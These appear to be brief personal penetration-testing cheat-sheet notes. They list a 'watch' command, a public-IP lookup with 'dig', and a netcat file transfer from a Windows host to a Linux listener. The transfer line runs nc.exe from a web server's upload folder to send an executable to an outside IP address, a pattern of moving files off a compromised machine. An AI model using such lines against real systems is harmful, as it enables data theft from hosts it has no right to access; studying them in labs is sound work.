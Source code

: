 

## Watch
```
watch -n 0.5 -d ls -la
```

## Transfer file windows ---> linux
```
win    : C:\xampp\htdocs\gym\upload\nc.exe 10.10.15.130 5555 < CloudMe_1112.exe
linux  : nc -nlvp 5555 > CloudMe_1112.exe
```

## Find public ip
```
dig +short myip.opendns.com @resolver1.opendns.com
```
